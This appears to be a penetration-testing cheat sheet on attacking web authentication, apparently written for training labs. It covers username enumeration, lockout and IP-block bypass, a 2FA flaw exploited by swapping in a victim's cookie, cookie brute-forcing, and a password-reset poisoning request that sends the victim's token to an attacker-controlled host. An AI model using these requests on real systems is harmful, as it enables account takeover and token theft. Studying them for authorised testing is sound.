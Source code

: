 # Authentication

## <mark style="color:purple;">Usernames enumeration</mark>

Test in every features that interact with user account. E.g. login, password recovery.

<mark style="color:purple;">⟩</mark> **Default username**

```
admin
administrator
firstname.lastname@somecompany.com
```

<mark style="color:purple;">⟩</mark> **Regisitration form**&#x20;

Create account and see if there's error like "account already exists".

<mark style="color:purple;">⟩</mark> **Comparing responses**

Use a valid user and an invalid user (and incorrect password). One character out of place makes the messages distinct, even if not visible on the page.

{% hint style="success" %}
**Tip**: Use "Grep - match" in Burp Intruder to fetch the error message
{% endhint %}

<mark style="color:purple;">⟩</mark> **Account locking**

Try 3/5 login. If the account is locked, it could mean that there is.

<mark style="color:purple;">⟩</mark> **Response times**

A website may only check the password if the username is valid. So, entering an excessively long password causes a noticeable delay.

## <mark style="color:purple;">Passwords</mark>

[password-cracking.md](../../iv-miscellaneous/password-cracking.md "mention")

## <mark style="color:purple;">Account locking</mark>

**Guess password with locked account**&#x20;

With your account locked, send a request with an incorrect password and another with a correct password. Is the response different?

***

**IP blocked bypass**

* The failed attempts counter resets if the IP owner logs in successfully. (Make sure that concurrent requests is set to 1)&#x20;
* Try to bypass by adding `X-Forwarded-For` header

***

**With password change**

See if you can change the password of an arbitrary user. E.g: look for a hidden username paramer (control it).  Brute-force password when you enter your current password.

{% hint style="success" %}
**Tip**: use your account and notice different behavior.

* current password: wrong, new-password-1=XXX, new-password-2=XXX
* current password: wrong, new-password-1=XXX, new-password-2=YYY
* current password: \<right>, new-password-1=XXX, new-password-2=XXX
* current password: \<right>, new-password-1=XXX, new-password-2=YYY
{% endhint %}

## <mark style="color:purple;">2FA</mark> <a href="#bypassing-two-factor-authentication" id="bypassing-two-factor-authentication"></a>

* **Brute-force OTP**
* **Bypassing two-factor authentication**&#x20;

Check if you can directly skip to "logged-in" pages.

* **Flawed logic**

<pre class="language-http"><code class="lang-http"><strong># 1 step - (REQUEST) Normal login with attacker account
</strong>POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
[...]

username=attacker&#x26;password=qwerty
</code></pre>

```http
# 1 step - (RESPONSE) The server sets cookie
HTTP/1.1 200 OK
Set-Cookie: account=attacker
```

```http
# 2 step - request two-factor
GET /login-steps/second HTTP/1.1
Cookie: account=attacker
```

```http
# 3 step - submit the two-factor code with victim cookie
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
[...]

verification-code=123456
```

## <mark style="color:purple;">Remember me option</mark>

* **Study your cookie and deduce how it is generated -** Sometimes this cookie is hashed or encoded (e.g. base64)
* **Brute-force other users' cookies to gain access to their accounts**

## <mark style="color:purple;">Password reset</mark>

**Control username parameter**

After you receive an email with the URL to reset your password, see if you can control username parameter.

```http
POST /forgot-pwd?temp-token=xxx HTTP/2
[...]

user=<victim>&new-pwd-1=<whatever>&new-pwd-2=<whatever>&token=xxx
```

***

**Resetting passwords using a URL (static token)**

Poor implementation can use guessable parameter: E.g.: `http://vulnerable-website.com/reset-password?user=victim-user`

***

**Steal another user's token (for dynamic token)**

Add the `X-Forwarded-Host` header and see if it allows you to control the link generated by the app. This way, you can insert your website's URL so that when the user clicks on the link, they are directed to `http://your.website.com/reset-password?token=impredictabletoken`.

```http
POST /forgot-password HTTP/2
Host: 0ad400fb039bb5ea816cac4d00be00a8.web-security-academy.net
X-Forwarded-Host: your.website.com

username=lebron
```
